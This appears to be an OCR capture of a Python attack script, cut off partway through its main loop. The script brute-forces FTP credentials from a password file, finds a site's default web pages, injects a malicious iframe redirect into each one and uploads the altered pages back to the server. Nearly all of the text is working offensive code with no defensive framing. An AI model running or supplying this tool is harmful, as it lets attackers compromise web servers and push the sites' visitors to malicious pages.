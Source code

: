 def bruteLogin(hostname, passwdFile):
    pF = open(passwdFile, 'r')
    for line in pF.readlines():
        time.sleep(1)
        userName = line.split(':')[0]
        passWord = line.split(':')[1].strip('\r').strip('\n')
        print('[+] Trying: ' + userName + '/' + passWord)
        try:
            ftp = ftplib.FTP(hostname)
            ftp.login(userName, passWord)
            print('\n[*] ' + str(hostname) + ' FTP Logon Succeeded: ' + userName + '/' + passWord)
            ftp.quit()
            return (userName, passWord)
        except Exception as e:
            pass
    print('\n[-] Could not brute force FTP credentials')
    return (None, None)

def returnDefault(ftp):
    try:
        dirList = ftp.nlst()
    except:
        dirList = []
        print('[-] Could not list directory contents.')
        print('[-] Skipping To Next Target.')
        return
    retList = []
    for fileName in dirList:
        fn = fileName.lower()
        if '.php' in fn or '.htm' in fn or '.asp' in fn:
            print('[+] Found default page: ' + fileName)
        retList.append(fileName)
    return retList


def injectPage(ftp, page, redirect):
    f = open(page + '.tmp', 'w')
    ftp.retrlines('RETR ' + page, f.write)
    print('[+] Downloaded Page: ' + page)
    f.write(redirect)
    f.close()
    print('[+] Injected Malicious IFrame on: ' + page)
    ftp.storlines('STOR ' + page, open(page + '.tmp'))
    print('[+] Uploaded Injected Page: ' + page)

def attack(username, password, tgtHost, redirect):
    ftp = ftplib.FTP(tgtHost)
    ftp.login(username, password)
    defPages = returnDefault(ftp)
    for defPage in defPages:
        injectPage(ftp, defPage, redirect)

def main():
    parser = optparse.OptionParser('usage%prog ' + '-H &lt;target host[s]&gt; -r &lt;redirect page&gt;' + '[ -f &lt;userpass file&gt;]')
    parser.add_option('-H', dest='tgtHosts', type='string', help='specify target host')
    parser.add_option('-f', dest='passwdFile', type='string', help='specify user/password file')
    parser.add_option('-r', dest='redirect', type='string', help='specify a redirection page')
    (options, args) = parser.parse_args()
    tgtHosts = str(options.tgtHosts).split(', ')
    passwdFile = options.passwdFile
    redirect = options.redirect
    if tgtHosts == None or redirect == None:
        print(parser.usage)
        exit(0)
    for tgtHost in tgtHosts: